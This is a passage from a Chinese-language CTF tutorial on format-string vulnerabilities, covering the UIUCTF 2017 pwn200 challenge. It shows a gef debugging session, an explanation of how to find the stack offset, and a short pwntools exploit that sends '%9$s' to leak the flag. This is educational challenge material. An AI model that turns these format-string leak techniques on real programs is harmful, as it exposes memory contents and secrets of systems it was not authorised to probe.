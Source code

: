 ```shell
gef➤  b printf
Breakpoint 1 at 0x400640
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
what's the flag
123456
You answered:

Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
28	printf.c: 沒有那個文件或目錄.

─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb08', 'l8']
8
0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8	 ← $rsp
0x00007fffffffdb10│+0x08: 0x0000000031000001
0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────


```

可以看到 flag 對應的棧上的偏移爲 5，除去對應的第一行爲返回地址外，其偏移爲 4。此外，由於這是一個 64 位程序，所以前 6 個參數存在在對應的寄存器中，fmt 字符串存儲在 RDI 寄存器中，所以 fmt 字符串對應的地址的偏移爲 10。而 fmt 字符串中 `%order$s` 對應的 order 爲 fmt 字符串後面的參數的順序，所以我們只需要輸入 `%9$s` 即可得到 flag 的內容。當然，我們還有更簡單的方法利用 https://github.com/scwuaptx/Pwngdb 中的 fmtarg 來判斷某個參數的偏移。

```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我們必須 break 在 printf 處。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
```